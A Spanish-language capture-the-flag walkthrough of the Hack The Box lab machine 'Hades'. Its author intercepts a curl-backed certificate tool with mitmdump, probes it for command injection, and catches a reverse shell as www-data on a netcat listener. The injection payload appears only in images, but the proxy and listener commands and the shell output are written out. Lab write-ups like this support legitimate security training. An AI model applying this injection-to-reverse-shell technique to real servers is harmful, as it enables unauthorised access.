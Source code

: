 ```yaml
---
title: Hades
date: 2023-05-08 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: []     # TAG names should always be lowercase
---
```


```shell

```


![imagen1](/assets/images/Hades/hades1.png) Primera imagen

![imagen1](/assets/images/Hades/hades2.png) Imagen de solicitud de certificados.


```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Hades/content$ sudo mitmdump -p 443 --mode reverse:https://10.13.38.16 --ssl-insecure --set flow_detail=2  
[23:27:39.037] reverse proxy to https://10.13.38.16 listening at *:443.
[23:27:51.526][10.13.38.16:49846] client connect
[23:27:51.730][10.13.38.16:49846] server connect 10.13.38.16:443
10.13.38.16:49846: GET https://10.13.38.16/
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 200 OK 14.3k
    Date: Tue, 09 May 2023 05:28:21 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Last-Modified: Thu, 05 Sep 2019 15:58:47 GMT
    ETag: "3960-591d0659f7d83"
    Accept-Ranges: bytes
    Content-Length: 14688
    Vary: Accept-Encoding
    Content-Type: text/html
[23:27:53.117][10.13.38.16:49846] client disconnect
[23:27:53.118][10.13.38.16:49846] server disconnect 10.13.38.16:443
```
Podemos ver que está utilizando curl por detrás, podemos intentar inyectar comando para ver que pasa. Al intentarlo podemos ver que no se ejecuta correctamente, podemos intentar hacer diferentes maneras de ejecutar comandos.

![imagen1](/assets/images/Hades/hades3.png)

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Hades/content$ sudo mitmdump -p 443 --mode reverse:https://10.13.38.16 --ssl-insecure --set flow_detail=2
[23:30:33.579] reverse proxy to https://10.13.38.16 listening at *:443.
[23:32:08.855][10.13.38.16:49872] client connect
[23:32:09.054][10.13.38.16:49872] server connect 10.13.38.16:443
10.13.38.16:49872: GET https://10.13.38.16/www-data
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 404 Not Found 274b
    Date: Tue, 09 May 2023 05:32:39 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Content-Length: 274
    Content-Type: text/html; charset=iso-8859-1
[23:32:10.083][10.13.38.16:49872] client disconnect
[23:32:10.084][10.13.38.16:49872] server disconnect 10.13.38.16:443
```
Ahora intentmos mandarnos una conexión a nuestra máquina. Buscando maneras de hacerlo encontramos la combinación para que se ejecute correctamente.

![imagen4](/assets/images/Hades/hades4.png)

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Hades$ sudo nc -lnvp 1234                              
[sudo] password for gu3ro: 
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.13.38.16] 49329
bash: cannot set terminal process group (8860): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cee1146c7ac1:/var/www/html/ssltools$ whoami
whoami
www-data
```
